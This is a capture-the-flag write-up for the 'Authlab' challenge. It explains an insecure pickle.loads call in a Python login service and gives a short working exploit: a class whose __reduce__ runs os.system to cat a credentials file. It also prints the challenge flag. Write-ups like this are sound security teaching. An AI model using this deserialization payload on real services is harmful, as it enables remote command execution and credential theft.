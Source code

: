 # Authlab

## Challenge (100 points, 20 solves)

> I made an authentication wrapper for services in python. Help me make sure the admin password cannot be leaked.
>
> `nc challs.nusgreyhats.org 33401`
>
> Author: k-hian

## Summary

This challenge presents a Python authentication service with a custom credential system. The service offers multiple login methods, including a feature called "EasyCreds" that uses Python's `pickle` for (de)serialization of user objects.

## Analysis

The main vulnerability is the use of `pickle.loads` on untrusted user input in the `easyLogin` method, without any sanitization or validation. Since `pickle` can execute arbitrary code during deserialization, this allows an attacker to craft a malicious payload that runs arbitrary commands on the server.

## Approach

1. **Understand the code:**
   - The server accepts a base64-encoded pickled object for "EasyCreds" login.
   - The object is deserialized directly with `pickle.loads`, which is unsafe.

2. **Exploit with a malicious pickle:**
   - Create a custom Python class with a `__reduce__` method that executes a command (e.g., `cat Creds.py` to read the admin password or flag).
   - Pickle and base64-encode this object, then submit it as the EasyCreds input.

3. **Retrieve the flag:**
   - The server executes the command and leaks the flag or sensitive file contents.

**Exploit code:**

```python
import pickle, base64

class LeakAdmin(object):
    def __reduce__(self):
        import os
        return (os.system, ("cat Creds.py",))

payload = base64.b64encode(pickle.dumps(LeakAdmin())).decode()
print(payload)
```

Submit the output as your EasyCreds to trigger the exploit and retrieve the flag.

## Flag

`grey{4_p1ck13d_p4ssw0rd_s0uNd5_n1C3}`
